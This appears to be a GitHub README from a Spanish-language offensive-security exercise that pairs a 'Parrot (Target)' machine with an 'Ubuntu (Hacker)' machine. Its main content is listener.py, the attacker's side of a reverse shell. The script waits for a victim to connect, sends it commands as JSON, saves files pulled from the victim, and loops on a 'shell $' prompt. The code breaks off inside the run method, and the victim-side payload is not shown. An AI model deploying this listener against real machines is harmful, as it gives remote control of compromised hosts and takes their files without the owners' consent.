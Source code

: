 
# Parrot (Target)

![mejora de codigo error de cd cdh](https://user-images.githubusercontent.com/97669969/157463211-4ef6136c-1f4b-466b-900c-df3066b092b1.png)




# Ubuntu (Hacker)

* listener.py

```bash
import socket
import json
from unittest import result
import base64

class Listener:

    def __init__(self,ip, port):
        listener = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        listener.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR, 1)
        listener.bind((ip,port))
        listener.listen(0)
        print("[+] Esperando por conexiones")
        self.connection,addres = listener.accept()
        print("[+] Tenemos una conexion de {}".format(addres))
        result = self.connection.recv(1024)
        print(result.decode("utf-8"))
    
    def envio_seguro(self,comando):
        json_data = json.dumps(comando)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        while True:

            try:
                json_data =json_data + self.connection.recv(1024).decode("utf-8")
                return json.loads(json_data)
                
            except:
                continue

      
    def ejecutar_remoto(self,comando):
        self.envio_seguro(comando)
        
        if comando[0] == "salir":
            self.connection.close()
            exit()
            
        return self.reception_segura()
    
    def escribir_archivo(self,ruta,contenido):
        with open(ruta,"wb") as file:
            file.write(base64.b64decode(contenido))
            return "[+] Descarga completa!!"

    def run(self):
         while True:
            comando = input("shell $ ")
```